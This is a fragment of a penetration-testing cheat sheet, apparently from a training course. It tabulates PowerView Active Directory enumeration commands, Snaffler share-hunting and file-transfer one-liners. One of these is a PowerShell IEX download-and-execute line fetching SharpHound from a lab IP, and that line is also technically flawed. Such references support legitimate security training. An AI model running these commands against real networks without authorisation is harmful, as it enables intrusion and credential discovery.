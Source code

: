 | `Get-DomainComputer`                                         | PowerView script used to return all computers or specific computer objects in AD. Performed from a Windows-based host. |
| `Get-DomainGroup`                                            | PowerView script used to eturn all groups or specific group objects in AD. Performed from a Windows-based host. |
| `Get-DomainOU`                                               | PowerView script used to search for all or specific OU objects in AD. Performed from a Windows-based host. |
| `Find-InterestingDomainAcl`                                  | PowerView script used to find object `ACLs` in the domain with modification rights set to non-built in objects. Performed from a Windows-based host. |
| `Get-DomainGroupMember`                                      | PowerView script used to return the members of a specific domain group. Performed from a Windows-based host. |
| `Get-DomainFileServer`                                       | PowerView script used to return a list of servers likely functioning as file servers. Performed from a Windows-based host. |
| `Get-DomainDFSShare`                                         | PowerView script used to return a list of all distributed file systems for the current (or specified) domain. Performed from a Windows-based host. |
| `Get-DomainGPO`                                              | PowerView script used to return all GPOs or specific GPO objects in AD. Performed from a Windows-based host. |
| `Get-DomainPolicy`                                           | PowerView script used to return the default domain policy or the domain controller policy for the current domain. Performed from a Windows-based host. |
| `Get-NetLocalGroup`                                          | PowerView script used to  enumerate local groups on a local or remote machine. Performed from a Windows-based host. |
| `Get-NetLocalGroupMember`                                    | PowerView script enumerate members of a specific local group. Performed from a Windows-based host. |
| `Get-NetShare`                                               | PowerView script used to return a list of open shares on a local (or a remote) machine. Performed from a Windows-based host. |
| `Get-NetSession`                                             | PowerView script used to return session information for the local (or a remote) machine. Performed from a Windows-based host. |
| `Test-AdminAccess`                                           | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host. |
| `Find-DomainUserLocation`                                    | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host. |
| `Find-DomainShare`                                           | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host. |
| `Find-InterestingDomainShareFile`                            | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host. |
| `Find-LocalAdminAccess`                                      | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host. |
| `Get-DomainTrust`                                            | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |
| `Get-ForestTrust`                                            | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |
| `Get-DomainForeignUser`                                      | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |
| `Get-DomainForeignGroupMember`                               | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |
| `Get-DomainTrustMapping`                                     | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse`   | PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host. |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host. |
| `.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data`          | Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

# Transfering Files

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo python3 -m http.server 8001`                           | Starts a python web server for quick hosting of files. Performed from a Linux-basd host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |